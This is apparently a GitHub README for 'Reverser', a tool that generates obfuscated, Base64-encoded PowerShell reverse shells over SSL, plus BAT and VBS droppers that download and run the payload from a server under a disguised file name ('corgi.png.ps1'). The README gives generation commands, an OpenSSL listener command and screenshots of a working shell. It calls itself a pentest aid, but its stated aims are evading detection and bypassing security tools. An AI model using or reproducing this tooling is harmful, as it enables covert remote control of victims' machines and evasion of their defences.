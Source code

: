 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **VBS File Generation:** Create a VBS file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reverser
```

## Explain

The tool can generate Three types of files, as chosen by the user:
- A single PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
- An encoded BAT file that connects to a remote server to download and Execute the encoded PS1 file.
- A VBS file that connects to a remote server to download and Execute the encoded PS1 file.

The BAT and VBS files, during their initial request to the server to download the PS1 into memory, are executed over an encrypted channel using a Self-Signed Certificate. After downloading the PS1 file into memory, the BAT and VBS files will decode the script and establish an encrypted communication channel to create the Reverse Shell


This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```
![image](https://github.com/user-attachments/assets/7e53d3e9-553a-459f-bf42-287d2c6e1606)

Creating a VBS file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type vbs -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/ad71135d-a456-427c-a0e5-89bc95d0d4cf)

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/91411dd0-7ef9-42d2-95c8-918fb3ba42c2)


-----------------------------

Opening The listeners:

Opening a listener with the OpenSSL server to receive the Reverse shell connection:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
open a listener with our server to handle the initial connection for downloading the PS1 file from the BAT/VBS file:
```bash
python3 listener.py -https_port|-http_port <Your_Listener_Server_PORT>
```


All The traffic is encrypted:
![image](https://github.com/user-attachments/assets/a2f21061-aa9c-425f-b631-0da774b01395)


Getting a Reverse Shell:
![image](https://github.com/user-attachments/assets/eb34ed8a-e98c-4fed-b01d-f2bafdc00726)





